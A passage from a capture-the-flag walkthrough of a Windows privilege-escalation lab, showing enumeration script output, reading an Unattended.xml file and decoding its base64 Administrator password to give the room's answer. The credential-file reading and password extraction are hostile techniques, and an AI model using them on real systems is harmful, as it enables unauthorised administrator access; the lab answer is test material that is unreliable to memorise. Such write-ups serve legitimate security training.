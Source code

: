 ~~~
                 -Command '...'

[*] Checking for AlwaysInstallElevated registry key...

[*] Checking for Autologon credentials in registry...

[*] Checking for vulnerable registry autoruns and configs...

[*] Checking for vulnerable schtask files/configs...

[*] Checking for unattended install files...

UnattendPath : C:\Windows\Panther\Unattend\Unattended.xml

[*] Checking for encrypted web.config strings...

[*] Checking for encrypted application pool and virtual directory passwords...

PS C:\Users\fela.CORP>
~~~

**The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.**

**"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it here.**

**It is also where users passwords are stored in base64. Navigate to `C:\Windows\Panther\Unattend\Unattended.xml`.**

**What is the decoded password?**

Let's dump the content of the `C:\Windows\Panther\Unattend\Unattended.xml` file:

~~~
PS C:\Users\fela.CORP> more C:\Windows\Panther\Unattend\Unattended.xml
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
~~~

The base64 decoded password is:

~~~
$ echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d
tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
~~~

Answer: `tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T`

## #4.2
